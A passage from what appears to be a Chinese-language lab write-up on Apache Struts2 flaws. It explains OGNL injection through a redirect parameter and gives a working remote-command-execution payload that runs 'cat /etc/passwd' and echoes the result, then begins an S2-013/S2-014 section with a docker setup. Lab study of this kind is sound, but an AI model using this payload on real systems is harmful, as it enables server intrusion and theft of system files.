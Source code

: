 这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

## Exp

可以直接祭出s2-001中的回显POC，因为这里是没有沙盒，也没有限制任何特殊字符（为什么？）。

```plain
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

发送请求，执行命令：



![img](assets/1670311959645-8fc43b9b-725f-40be-9aa0-de2a41e0c977.png)

------

# S2-013/S2-014 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.14.1

漏洞详情:

- http://struts.apache.org/docs/s2-013.html
- http://struts.apache.org/docs/s2-014.html

## 测试环境搭建

```plain
docker-compose build
docker-compose up -d
```
